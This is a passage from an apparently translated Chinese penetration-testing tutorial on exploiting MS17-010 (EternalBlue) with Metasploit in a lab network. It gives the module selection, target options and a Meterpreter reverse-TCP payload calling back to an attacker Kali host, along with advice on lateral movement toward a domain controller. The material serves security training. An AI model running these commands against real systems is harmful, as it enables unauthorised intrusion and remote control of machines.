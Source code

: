 很多低垂的水果。我们来挑一些吧。通过搜索`ms10_010`，我们将发现与此漏洞相关的漏洞：

```
search ms17_010  
```

您将看到以下漏洞：

![](img/510f8e16-7530-4785-bc90-26b36b9262d7.png)

我们在同一个框架中有三个漏洞。`ms17_010_eternalblue`漏洞最适合 64 位系统。实际上，如果键入 show payloads，您将看到只显示 x64 有效负载。我使用了 x32 位的有效负载，并使其在 32 位系统上运行，但这可能会挂起 32 位系统，并导致其蓝屏或重新启动。

`ms17_010_psexec`漏洞最适合 32 位系统。`ms17_010_eternalblue_win8`漏洞在 Win8 和 Win10 系统上最有效。此漏洞还将绕过这些系统上的 ASLR 保护。

我发现这些漏洞攻击在域控制器上不起作用。这很可能是因为域控制器需要 Active Directory 登录凭据，而不允许连接到 SMB 服务。最好选择另一台服务器，然后横向移动到域控制器。这将是我们的攻击策略。

通过前面的扫描，我们发现有一个易受攻击的 64 位系统 BO-SRV3。我们将使用`ms17_010_eternalblue`漏洞来破坏这个系统。使用以下代码加载模块：

```
use exploit/windows/smb/ms17_010_eternalblue
show options # to show the options  
```

对于选项，您需要加载以下内容：

```
set RHOST 172.16.42.7
set SMBDomain LAB1
```

要查看可用的有效载荷，请键入以下命令：

```
show payloads  
```

我们将使用以下方法：

```
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.42.140 # This will be kali's IP address
show options # To check your set up  
```
